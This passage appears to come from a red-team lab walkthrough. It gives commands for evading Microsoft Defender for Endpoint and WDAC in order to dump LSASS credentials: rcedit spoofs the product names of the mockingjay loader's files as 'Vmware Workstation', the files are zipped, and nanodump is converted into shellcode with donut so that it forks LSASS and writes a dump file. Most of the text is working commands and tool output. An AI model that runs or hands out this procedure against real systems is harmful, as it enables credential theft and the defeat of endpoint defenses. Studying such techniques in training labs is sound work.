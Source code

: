 ⭐ We will be using the mockingjay POC (loader/dropper) along with nanodump shellcode to bypass MDE detections and perform a covert LSASS dump.
To bypass WDAC we edit File Attributes to match the Product Name: "Vmware Workstation" on all required files (exe/dll) of the mockingjay POC.
Begin by editing File Attributes for all required mockingjay files using rcedit to match the Product Name: "Vmware Workstation" and zip all required contents as follows.

Note that `msvcp140.dll`, `vcruntime140.dll`, `vcruntime140_1.dll` are `mockingjay.exe` dependency DLLs (located at `\Windows\system32`) which are transferred too because WDAC is enabled on the target and would block them, while `mscorlib.ni.dll` is the DLL with the free RWX section to perform Self Process Injection in.

```
C:\AD\Tools> C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\msvcp140.dll --set-version-string "ProductName" "Vmware Workstation"

C:\AD\Tools> C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140.dll --set-version-string "ProductName" "Vmware Workstation"

C:\AD\Tools> C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\vcruntime140_1.dll --set-version-string "ProductName" "Vmware Workstation"

C:\AD\Tools> C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mockingjay.exe --set-version-string "ProductName" "Vmware Workstation"

C:\AD\Tools> C:\AD\Tools\mockingjay\rcedit-x64.exe C:\AD\Tools\mockingjay\mscorlib.ni.dll --set-version-string "ProductName" "Vmware Workstation"
```

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

PS C:\AD\Tools> Compress-Archive -Path C:\AD\Tools\mockingjay\msvcp140.dll, C:\AD\Tools\mockingjay\vcruntime140.dll, C:\AD\Tools\mockingjay\vcruntime140_1.dll, C:\AD\Tools\mockingjay\mockingjay.exe, C:\AD\Tools\mockingjay\mscorlib.ni.dll -DestinationPath C:\AD\Tools\mockingjay\mockingjay.zip
```

Now convert nanodump into compatible shellcode using donut along with the with the args:
- spoof-callstack (`-sc`),
- fork LSASS process before dumping (`-f`)
- output the dump to a file named `nano.dmp` (`--write`) to make it dump LSASS in a covert way.

Note that shellcode doesn't need to be edited using rcedit to bypass WDAC.

```
PS C:\AD\Tools> C:\AD\Tools\mockingjay\donut.exe -f 1 -p " -sc -f --write nano.dmp" -i C:\AD\Tools\mockingjay\nanodump.x64.exe -o C:\AD\Tools\mockingjay\nano.bin

  [ Donut shellcode generator v1 (built Mar  3 2023 13:33:22)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "C:\AD\Tools\mockingjay\nanodump.x64.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Parameters    :  -sc -f --write nano.dmp
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "C:\AD\Tools\mockingjay\nano.bin"
  [ Exit          : Thread
```
